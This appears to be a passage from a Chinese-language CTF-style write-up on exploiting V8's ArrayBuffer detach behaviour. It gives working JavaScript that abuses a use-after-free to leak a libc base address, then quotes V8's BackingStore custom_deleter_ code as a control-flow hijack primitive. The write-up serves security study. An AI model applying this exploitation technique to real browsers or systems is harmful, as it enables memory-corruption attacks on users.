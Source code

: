 ```
```

在`arrayBuffer(SIZE)`创建的时候，还会申请如下大小的内存
- calloc(SIZE) for the `Data buffer`
- malloc(48) for the `BackingStore`
- malloc(32) for the `shared_ptr`
- malloc(40) for the `ArrayBufferExtension`

当`Detach`一个array的时候(即`%ArrayBufferDetach`)，前三个chunks(`Data buffer`)会被释放

### 泄露libc
通过UAF残留的bk和fk

`.set()`方法可以将`undetached buffer`中的内容复制到新buffer，从而获取(泄露)`undetached buffer`中的残留。
```
var a = new ArrayBuffer(8 * 1000);
var a_view1 = new Uint8Array(a);
var a_view2 = new BigUint64Array(a);

var b = new ArrayBuffer(8 * 1000);
var b_view1 = new Uint8Array(b);
var b_view2 = new BigUint64Array(b);

%ArrayBufferDetach(a);

b_view1.set(a_view1);

console.log('[*] leak = 0x'+b_view2[1].toString(16));

libc_base=b_view2[1]-0x3ebca0n;
```
### 控制程序流
[BackingStore的构造函数](https://source.chromium.org/chromium/chromium/src/+/master:v8/src/objects/backing-store.h;drc=92402e1a4b9182848bdc7b9c6ee9f88753703abe;l=146)
```
  BackingStore(void* buffer_start, size_t byte_length, size_t byte_capacity,
               SharedFlag shared, bool is_wasm_memory, bool free_on_destruct,
               bool has_guard_regions, bool custom_deleter, bool empty_deleter)
      : buffer_start_(buffer_start),
        byte_length_(byte_length),
        byte_capacity_(byte_capacity),
        is_shared_(shared == SharedFlag::kShared),
        is_wasm_memory_(is_wasm_memory),
        holds_shared_ptr_to_allocator_(false),
        free_on_destruct_(free_on_destruct),
        has_guard_regions_(has_guard_regions),
        globally_registered_(false),
        custom_deleter_(custom_deleter),
        empty_deleter_(empty_deleter) {}
```
其中有`custom_deleter_`变量
检查`custom_deleter_`是否存在，然后通过调用callback，参数为buffer中的内容。
[backing-store.cc中custom_deleter_](https://source.chromium.org/chromium/chromium/src/+/master:v8/src/objects/backing-store.cc;drc=92402e1a4b9182848bdc7b9c6ee9f88753703abe;l=199)
```
  if (custom_deleter_) {
    DCHECK(free_on_destruct_);
    TRACE_BS("BS:custome deleter bs=%p mem=%p (length=%zu, capacity=%zu)\n",
             this, buffer_start_, byte_length(), byte_capacity_);
    type_specific_data_.deleter.callback(buffer_start_, byte_length_,
                                         type_specific_data_.deleter.data);
    Clear();
    return;
  }
```